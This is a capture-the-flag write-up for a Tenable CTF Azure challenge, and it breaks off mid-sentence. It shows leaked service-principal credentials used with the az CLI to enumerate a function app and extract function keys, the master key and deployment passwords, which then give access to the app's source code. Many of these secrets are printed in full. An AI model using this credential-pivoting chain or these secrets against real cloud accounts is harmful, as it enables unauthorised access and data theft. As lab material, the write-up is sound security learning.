 # The Obligatory Lambda 
**Web, 300**

### Prompt

Spoiler: It's not actually Lambda.

A colleague accidentally pasted some credentials to the wrong chat, but didn't change them after deleting the message. See if you can figure out what they go to.

username: 556973dd-ae65-499a-b19f-fafdc42d1884 tenant: 601fd801-c161-434e-add7-82dd3581b8cb password: qum8Q~P-nsLdUotALCCCYWM.5-~URbq3wW2-6aU9

### Solution 
The credentials are very Azure. 

```bash
> az login --service-principal -u 556973dd-ae65-499a-b19f-fafdc42d1884 -p qum8Q~P-nsLdUotALCCCYWM.5-~URbq3wW2-6aU9 --tenant 601fd801-c161-434e-add7-82dd3581b8cb
[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "601fd801-c161-434e-add7-82dd3581b8cb",
    "id": "5114ad5f-eba0-48cb-ac20-70d475fff746",
    "isDefault": true,
    "managedByTenants": [],
    "name": "Azure subscription 1",
    "state": "Enabled",
    "tenantId": "601fd801-c161-434e-add7-82dd3581b8cb",
    "user": {
      "name": "556973dd-ae65-499a-b19f-fafdc42d1884",
      "type": "servicePrincipal"
    }
  }
]
```
Note that the `--service-principle` is necessary. You might also need port 80 and 443 exposed. 

Now we have (way too) many options. An interesting finding is that there's an Azure function app under this account. 
```bash
azure functionapp fetch-app-settings tenable-ctf
``` 

shows the url
```json
"defaultHostName": "tenable-ctf.azurewebsites.net",
```

We can also find all *functions* under this function app. 
```bash
> func azure functionapp list-functions tenable-ctf --show-keys
https://tenable-ctf.azurewebsites.net/api/getflag?code=eb9awF91rLqXFBaHQQDxxaJRfvbICt6LCYcqDrgZkIEu1aimjFAGKg==
```  
I don't have a screenshot, but the website asks for a *id* parameter. If the provided one isn't the same as the expected, the website returns *I happen to know xxx, but you look nothing like them.*

There are a couple ways to access the source code: 
- Use the [kudu service](https://github.com/projectkudu/kudu/wiki/Accessing-the-kudu-service), authenticate with deployment credentials. That means visiting https://tenable-ctf.scm.azurewebsites.net/basicauth with the credential below. 
```bash
> az functionapp deployment list-publishing-profiles -g ctf -n tenable-ctf
[
  {
    "SQLServerDBConnectionString": "",
    "controlPanelLink": "http://windows.azure.com",
    "databases": null,
    "destinationAppUrl": "http://tenable-ctf.azurewebsites.net",
    "hostingProviderForumLink": "",
    "msdeploySite": "tenable-ctf",
    "mySQLDBConnectionString": "",
    "profileName": "tenable-ctf - Web Deploy",
    "publishMethod": "MSDeploy",
    "publishUrl": "tenable-ctf.scm.azurewebsites.net:443",
    "userName": "$tenable-ctf",
    "userPWD": "jwZ37Afo2xnKimhqiExaeqCGba5oPqSmKmCsgx2zyDXFGrdsfs5bQH60oxj1",
    "webSystem": "WebSites"
  },
  {
    "SQLServerDBConnectionString": "",
    "controlPanelLink": "http://windows.azure.com",
    "databases": null,
    "destinationAppUrl": "http://tenable-ctf.azurewebsites.net",
    "ftpPassiveMode": "True",
    "hostingProviderForumLink": "",
    "mySQLDBConnectionString": "",
    "profileName": "tenable-ctf - FTP",
    "publishMethod": "FTP",
    "publishUrl": "ftp://waws-prod-dm1-157.ftp.azurewebsites.windows.net/site/wwwroot",
    "userName": "tenable-ctf\\$tenable-ctf",
    "userPWD": "jwZ37Afo2xnKimhqiExaeqCGba5oPqSmKmCsgx2zyDXFGrdsfs5bQH60oxj1",
    "webSystem": "WebSites"
  },
  {
    "SQLServerDBConnectionString": "",
    "controlPanelLink": "http://windows.azure.com",
    "databases": null,
    "destinationAppUrl": "http://tenable-ctf.azurewebsites.net",
    "hostingProviderForumLink": "",
    "mySQLDBConnectionString": "",
    "profileName": "tenable-ctf - Zip Deploy",
    "publishMethod": "ZipDeploy",
    "publishUrl": "tenable-ctf.scm.azurewebsites.net:443",
    "userName": "$tenable-ctf",
    "userPWD": "jwZ37Afo2xnKimhqiExaeqCGba5oPqSmKmCsgx2zyDXFGrdsfs5bQH60oxj1",
    "webSystem": "WebSites"
  },
  {
    "SQLServerDBConnectionString": "",
    "controlPanelLink": "http://windows.azure.com",
    "databases": null,
    "destinationAppUrl": "http://tenable-ctf.azurewebsites.net",
    "ftpPassiveMode": "True",
    "hostingProviderForumLink": "",
    "mySQLDBConnectionString": "",
    "profileName": "tenable-ctf - ReadOnly - FTP",
    "publishMethod": "FTP",
    "publishUrl": "ftp://waws-prod-dm1-157dr.ftp.azurewebsites.windows.net/site/wwwroot",
    "userName": "tenable-ctf\\$tenable-ctf",
    "userPWD": "jwZ37Afo2xnKimhqiExaeqCGba5oPqSmKmCsgx2zyDXFGrdsfs5bQH60oxj1",
    "webSystem": "WebSites"
  }
]
```

- Use Azure Storage Explorer. [Here's a nice write-up with this approach by @langemyh](https://github.com/langemyh/writeups/blob/main/tenable-ctf/2022/web/The%20Obligatory%20Lambda%20Challenge.md)
- I am not sure how this is discovered, but you can send a request to https://tenable-ctf.azurewebsites.net/admin/vfs/home/site/wwwroot/getFlag/\_\_init\_\_.py. You need to provide the *masterKey* in the *x-functions-key* field in the request header. The *masterKey* can be retrieved by
```bash
az functionapp keys list -n tenable-ctf -g ctf
{
  "functionKeys": {
    "default": "SnYQlFoW9NK/l3s9Myv2/5FybfAlVx6jVgaY4Z/aAZEizoH2Fl0bOg=="
  },
  "masterKey": "ooc2eagHaw/1OEEkzwLtOdlF10l35D8ttobTlLMaMb6F9paF6Lvz9Q==",
  "systemKeys": {}
}
```
The response looks like 

